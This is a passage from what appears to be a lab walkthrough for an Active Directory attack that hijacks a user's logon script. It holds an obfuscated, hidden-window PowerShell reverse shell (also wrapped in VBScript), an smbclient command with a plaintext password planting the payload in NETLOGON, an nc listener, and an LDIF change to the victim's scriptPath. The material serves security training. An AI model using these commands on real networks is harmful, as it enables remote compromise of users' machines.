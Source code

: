 ```shell
powershell -ExecutionPolicy Bypass -WindowStyle Hidden -EncodedCommand JABMAEgATwBTAFQAIAA9ACAAIgAxADAALgAxADIAOQAuADIAMgA5AC4AOAA0ACIAOwAgACQATABQAE8AUgBUACAAPQAgADkAMAAwADEAOwAgACQAVABDAFAAQwBsAGkAZQBuAHQAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAE4AZQB0AC4AUwBvAGMAawBlAHQAcwAuAFQAQwBQAEMAbABpAGUAbgB0ACgAJABMAEgATwBTAFQALAAgACQATABQAE8AUgBUACkAOwAgACQATg<SNIP>
```

Alternatively, we can use a `.vbs` file along with the [CreateObject](https://ss64.com/vb/createobject.html) [wscript](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/wscript) method to execute the encoded payload:

```vbscript
CreateObject("Wscript.shell").Run "powershell -ExecutionPolicy Bypass -WindowStyle Hidden -EncodedCommand JABMAEgATwBTAFQAIAA9ACAAIgAxADAALgAxADIAOQAuADIAMgA5AC4AOAA0ACIAOwAgACQATABQAE8AUgBUACAAPQAgADkAMAAwADIAOwAgACQAVABDAFAAQwBsAGkAZQBuAHQAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAE4AZQB0AC4AUwBvAGMAawBlAHQAcwAuAFQAQwBQAEMAbABpAGUAbgB0ACgAJABMAEgATwBTAFQALAAgACQATABQAE8AUgBUACkAOwAgACQATgBlAHQAdwBvAHIAawBTAHQAcgBlAGEAbQAgAD0AIAAkAFQAQwBQAEMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAIAAkAFMAdAByAGUAYQBtAFIAZQBhAGQAZQByACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBj<SNIP>"
```

Subsequently, we will use `smbclinet` to connect to the "EricsScripts" folder on `NETLOGON` and place our payload file in it using the `put` command:

```shell
anas21@htb[/htb]$ smbclient //10.129.229.224/NETLOGON --directory EricsScripts -U David%'SecurePassDav!d5' -c "put logonScript.bat"
```

At this point, the payload file is implanted within `NETLOGON`; before learning how to update `eric`'s `scriptPath` attribute from Linux, we need to start an `nc` listener on the same port we specified in the PowerShell reverse shell one-liner:

```shell
anas21@htb[/htb]$ nc -nvlp 9001
listening on [any] 9001 ...
```

### Step 3

To modify `eric`'s `scriptPath` to be the same location as the payload file we placed in Step 2, we will use `ldapmodify` and `bloodyAD`.

#### LdapModify

[ldapmodify](https://docs.ldap.com/ldap-sdk/docs/tool-usages/ldapmodify.html) is a powerful command-line utility that allows applying a set of add, delete, modify, and/or modify DN operations to an LDAP directory. We supply the changes we want to perform by using the [LDIF: The LDAP Data Interchange Format](https://ldap.com/ldif-the-ldap-data-interchange-format/) change format, as described in [RFC2849](https://datatracker.ietf.org/doc/html/rfc2849).

In our case, we will use an `LDIF` `modify change record` to modify `eric`'s `scriptPath`, setting it to point to the payload file we implanted in the "EricsScripts" folder within `NETLOGON`. Because `logon scripts` are always expected to be within `NETLOGON`, instead of providing the absolute path of the file, we can use its relative one:

```ldif
dn: CN=eric,CN=Users,DC=inlanefreight,DC=local
changetype: modify
replace: scriptPath
scriptPath: EricsScripts\logonScript.bat
```
